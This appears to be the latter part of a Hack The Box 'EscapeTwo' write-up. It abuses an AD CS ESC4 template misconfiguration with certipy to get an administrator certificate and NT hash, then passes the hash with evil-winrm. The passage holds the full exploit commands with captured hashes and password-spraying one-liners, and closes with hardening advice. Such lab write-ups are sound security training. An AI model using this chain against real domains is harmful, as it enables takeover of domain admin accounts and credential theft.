Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
Info: Establishing connection to remote endpoint
Error: An error of type WinRM::WinRMAuthorizationError happened, message is WinRM::WinRMAuthorizationError
Error: Exiting with code 1
So, yeah...
As this user most possibly has the sufficient privileges to administrate the server certificates, let's use certipy to find vulnerabilities.
┌──(oriol㉿zero)-[~/escapetwo]
└─$ certipy-ad find -vulnerable -u ca_svc@sequel.htb -hashes 3b181b914e7a9d5508ea1e20bc2b7fce -dc-ip 10.10.11.51
Certipy v4.8.2 - by Oliver Lyak (ly4k)
[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'sequel-DC01-CA' via CSRA
[!] Got error while trying to get CA configuration for 'sequel-DC01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'sequel-DC01-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'sequel-DC01-CA'
[*] Saved BloodHound data to '20250306211836_Certipy.zip'. Drag and drop the file into the BloodHound GUI from @ly4k
[*] Saved text output to '20250306211836_Certipy.txt'
[*] Saved JSON output to '20250306211836_Certipy.json'
Let's review the .txt file:
┌──(oriol㉿zero)-[~/escapetwo]
└─$ cat 20250306210040_Certipy.txt
Certificate Authorities
0
CA Name : sequel-DC01-CA
DNS Name : DC01.sequel.htb
Certificate Subject : CN=sequel-DC01-CA, DC=sequel, DC=htb
Certificate Serial Number : 152DBD2D8E9C079742C0F3BFF2A211D3
Certificate Validity Start : 2024-06-08 16:50:40+00:00
Certificate Validity End : 2124-06-08 17:00:40+00:00
Web Enrollment : Disabled
User Specified SAN : Unknown
Request Disposition : Unknown
Enforce Encryption for Requests : Unknown
Certificate Templates
0
Template Name : DunderMifflinAuthentication
Display Name : Dunder Mifflin Authentication
Certificate Authorities : sequel-DC01-CA
Enabled : True
Client Authentication : True
Enrollment Agent : False
Any Purpose : False
Enrollee Supplies Subject : False
Certificate Name Flag : SubjectRequireCommonName
SubjectAltRequireDns
Enrollment Flag : AutoEnrollment
PublishToDs
Private Key Flag : 16842752
Extended Key Usage : Client Authentication
Server Authentication
Requires Manager Approval : False
Requires Key Archival : False
Authorized Signatures Required : 0
Validity Period : 1000 years
Renewal Period : 6 weeks
Minimum RSA Key Length : 2048
Permissions
Enrollment Permissions
Enrollment Rights : SEQUEL.HTB\Domain Admins
SEQUEL.HTB\Enterprise Admins
Object Control Permissions
Owner : SEQUEL.HTB\Enterprise Admins
Full Control Principals : SEQUEL.HTB\Cert Publishers
Write Owner Principals : SEQUEL.HTB\Domain Admins
SEQUEL.HTB\Enterprise Admins
SEQUEL.HTB\Administrator
SEQUEL.HTB\Cert Publishers
Write Dacl Principals : SEQUEL.HTB\Domain Admins
SEQUEL.HTB\Enterprise Admins
SEQUEL.HTB\Administrator
SEQUEL.HTB\Cert Publishers
Write Property Principals : SEQUEL.HTB\Domain Admins
SEQUEL.HTB\Enterprise Admins
SEQUEL.HTB\Administrator
SEQUEL.HTB\Cert Publishers
[!] Vulnerabilities
ESC4 : 'SEQUEL.HTB\\Cert Publishers' has dangerous permissions
The interesting bit is the bottom one, we could perform a ESC4 via the DunderMifflinAuthentication template
What are templates? Templates determine the way certificates are issued on the AD
What is SAN? SAN stands for Subject Alternative Name. It is a field in X.509 digital certificates that allows you to specify additional identities (e.g., domain names, email addresses, IP addresses, or user principal names) that the certificate can be used to authenticate. SANs are commonly used to secure multiple domains or services with a single certificate.
On the same certipy github, there are the instructions on how to exploit the ESC4:
ESC4 is when a user has write privileges over a certificate template. This can for instance be abused to overwrite the configuration of the certificate template to make the template vulnerable to ESC1.
By default, Certipy will overwrite the configuration to make it vulnerable to ESC1.
Ok, so in an ESC4 what we do is, as we have a user that can edit templates, create a template vulnerable to ESC1. Let's see what ESC1 consists:
ESC1 is when a certificate template permits Client Authentication and allows the enrollee to supply an arbitrary Subject Alternative Name (SAN).
For ESC1, we can request a certificate based on the vulnerable certificate template and specify an arbitrary UPN or DNS SAN with the -upn and -dns parameter, respectively.
So ESC1 first need to have a template that: - allows domain authentication - Permits low-privileged users to enroll (request certificates) - Do not require additional authorization approval So, to go from ESC4 to ESC1 we need to edit a template with the requirements listed above.
Then, once the template is created, from a low-privileged user we can request a certificate with the SAN of an administrator! Then we could authenticate as an administrator, thanks the the PKINIT architecture.
I use certipy-ad to edit the template, it does it automatically, and with the flags -template and -save-old I create a backup of the specified template.
┌──(oriol㉿zero)-[~]
└─$ certipy-ad template -username 'ca_svc@sequel.htb' -hashes 3b181b914e7a9d5508ea1e20bc2b7fce -template DunderMifflinAuthentication -save-old
Certipy v4.8.2 - by Oliver Lyak (ly4k)
[*] Saved old configuration for 'DunderMifflinAuthentication' to 'DunderMifflinAuthentication.json'
[*] Updating certificate template 'DunderMifflinAuthentication'
[*] Successfully updated 'DunderMifflinAuthentication'
Now, the DunderMifflinAuthentication template can be used to request a certificate with the SAN we can, so with the flag -upn (User Principle Name, in essence is the user@domain.com format) I request a certificate to authenticate as admin.
Also for the CA name, which is normally the DC, but it can be verified on the .txt certipy exported earlier (sequel-DC01-CA).
┌──(oriol㉿zero)-[~/escapetwo]
└─$ certipy-ad req -username 'ca_svc@sequel.htb' -hashes 3b181b914e7a9d5508ea1e20bc2b7fce -ca sequel-DC01-CA -target sequel.htb -template DunderMifflinAuthentication -upn administrator@sequel.htb
Certipy v4.8.2 - by Oliver Lyak (ly4k)
[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 35
[*] Got certificate with UPN 'administrator@sequel.htb'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
Great! Now we have a .pfx certificate, just like the shadow credentials attack, we can retrieve the hash by trying to authenticate to the admin user and requesting a TGT ticket. So, I use the same command used with the ca_svc user.
┌──(oriol㉿zero)-[~/escapetwo]
└─$ certipy-ad auth -pfx administrator.pfx -domain sequel.htb
Certipy v4.8.2 - by Oliver Lyak (ly4k)
[*] Using principal: administrator@sequel.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@sequel.htb': aad3b435b51404eeaad3b435b51404ee:7a8d4e04986afa8ed4060f75e5a0b3ff
Now, it's just evil-winrm to the server with pass the hash and collect the root flag!
┌──(oriol㉿zero)-[~/escapetwo]
└─$ evil-winrm -i sequel.htb -u administrator -H 7a8d4e04986afa8ed4060f75e5a0b3ff
Evil-WinRM shell v3.7
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> ls
Pretty fun box, especially the privileges escalation bit, which a part from fun was very educative.
Footnote
I found some commands to do password spraying and trying different passwords with different users, this would've been helpful when trying the first ryan password.
nxc <protocol> <host> -u user.lst -p passwords.txt
Or like this:
crackmapexec <protocol> <host> -u users_list -p passwords_list --continue-on-success
I also could use certipy with the shadow cache instead of imputing the hash directly (this command outputs vulnerabilities on the AD CS service on the server):
KRB5CCNAME=$PWD/ca_svc.ccache certipy-ad find -scheme ldap -k -debug -target dc01.sequel.htb -dc-ip $target -vulnerable -stdout
Pretty fun machine :)
Solutions
- Don't save plain text passwords on an excel or anywhere
- If possible, don't save a plain text password on a config file
- Don't repeat passwords, use one different for every user/service
- Avoid shadow-users (like ryan is for ca_svc), users that have permissions to other users that could grant some type of privilege. Also importantly, shadow admins, which is a shadow user but can acquire admin privileges.
- AD CS misconfiguration, looking at the blogs, I found this pretty cool toolkit for auditing AD CS services: https://github.com/GhostPack/PSPKIAudit
Links used
- https://geekland.eu/uso-del-comando-awk-en-linux-y-unix-con-ejemplos/
- https://medium.com/@ibo1916a/smbclient-command-2803de274e46
- https://medium.com/@e.escalante.jr/active-directory-workshop-brute-forcing-the-domain-server-using-crackmapexec-pt-6-feab1c43d970
- https://thehackerway.es/2021/11/04/evil-winrm-shell-sobre-winrm-para-pentesting-en-sistemas-windows-parte-1-de-2/
- https://book.hacktricks.wiki/en/network-services-pentesting/5985-5986-pentesting-winrm.html?highlight=winrm#winrm
- https://www.kali.org/tools/impacket-scripts/#impacket-mssqlclient
- https://www.atlassian.com/data/sql/sql-server-list-tables-how-to-show-all-tables
- https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab
- https://www.thehacker.recipes/ad/movement/dacl/grant-rights
- https://hausec.com/2019/09/09/bloodhound-cypher-cheatsheet/#GUI
- https://hausec.com/domain-penetration-testing/
- https://github.com/SpecterOps/BloodHound-Legacy
- https://redfoxsec.com/blog/bloodhound-cheat-sheet/
- https://luemmelsec.github.io/Fantastic-BloodHound-Queries-and-Where-to-Find-Them/
- https://www.kali.org/tools/bloodyad/
- https://i-tracing.com/blog/dacl-shadow-credentials/
- https://github.com/ShutdownRepo/pywhisker
- https://www.tarlogic.com/es/glosario-ciberseguridad/kerberoasting/
- https://www.thehacker.recipes/ad/movement/kerberos/#tickets
- https://www.revenera.com/install/products/installshield/installshield-tips-tricks/what-is-a-pfx-certificate
- https://www.thehacker.recipes/ad/movement/kerberos/shadow-credentials
- https://github.com/ly4k/Certipy
- https://posts.specterops.io/certified-pre-owned-d95910965cd2
- https://research.ifcr.dk/certipy-2-0-bloodhound-new-escalations-shadow-credentials-golden-certificates-and-more-34d1c26f0dc6
- https://knowledgebase.paloaltonetworks.com/KCSArticleDetail?id=kA10g000000PO1GCAW
- https://www.codetwo.com/kb/upn/
- https://linux.die.net/man/1/ldapsearch
- https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf